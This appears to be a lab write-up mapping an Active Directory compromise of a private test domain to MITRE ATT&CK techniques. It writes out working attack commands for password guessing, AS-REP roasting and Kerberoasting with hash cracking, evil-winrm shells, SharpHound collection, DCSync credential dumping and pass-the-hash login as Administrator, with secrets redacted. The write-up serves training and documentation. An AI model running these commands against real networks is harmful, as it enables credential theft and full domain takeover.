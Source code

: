 ```yaml
---
title: Attack Scenarios (MITRE)
---
```


# Attack Scenarios (mapped to MITRE ATT&CK)
Passwords and hashes have been concealed to retain confidentiality.

## <u>Brute Forcing Guest Account</u>
- **Techniques:** T1110.001 (Brute Force: Password Guessing)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
![1](img/1.png){ loading=lazy }


## <u>Enumerating SMB Shares</u>
- **Techniques:** T1135 (Network Share Discovery)
- **Procedure:**

`nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
![2](img/2.png){ loading=lazy }


## <u>ASReproast Domain Account</u>
- **Techniques:** T1558.004 (Steal or Forge Kerberos Tickets: AS-REP Roasting), T1110.002 (Brute Force: Password Cracking)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
![3](img/3.png){ loading=lazy }

`john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
![4](img/4.png){ loading=lazy }


## <u>WinRM Shell with Domain Account</u>
- **Techniques:** T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
![5](img/6.png){ loading=lazy }

## <u>Upload of SharpHound</u>
- **Techniques:** T1021.006 (Remote Services: Windows Remote Management), T1059.003 (Command and Scripting Interpreter: Windows Command Shell)
- **Procedure:**

`upload SharpHound.exe`
![7](img/7.png){ loading=lazy }

## <u>Execution of SharpHound</u>
- **Techniques:** T1069.002 (Permission Group Discovery: Domain Groups), T1087.002 (Account Discovery), T1018 (Remote System Discovery), T1482 (Domain Trust Discovery), T1560 (Archive Collected Data)
- **Procedure:**

`./SharpHound.exe`
![8](img/8.png){ loading=lazy }

## <u>Exfiltration of Data Collected by SharpHound</u>
- **Techniques:** T1041 (Exfiltration Over C2 Channel)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
![10](img/10.png){ loading=lazy }

## <u>Bloodhound</u>
![11](img/11.png){ loading=lazy }

## <u>Kerberoast of svc-test</u>
- **Techniques:** T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting), T1110.002 (Brute Force: Password Cracking), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
![12](img/12.png){ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt`
![13](img/13.png){ loading=lazy }

## <u>DCSync</u>
- **Techniques:** T1003.006 (OS Credential Dumping: DCSync), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
![14](img/14.png){ loading=lazy }

## <u>Pass-the-hash to Login as Domain Admin</u>
- **Techniques:** T1550.002 (Use Alternate Authentication Material: Pass the Hash), T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
![15](img/15.png){ loading=lazy }
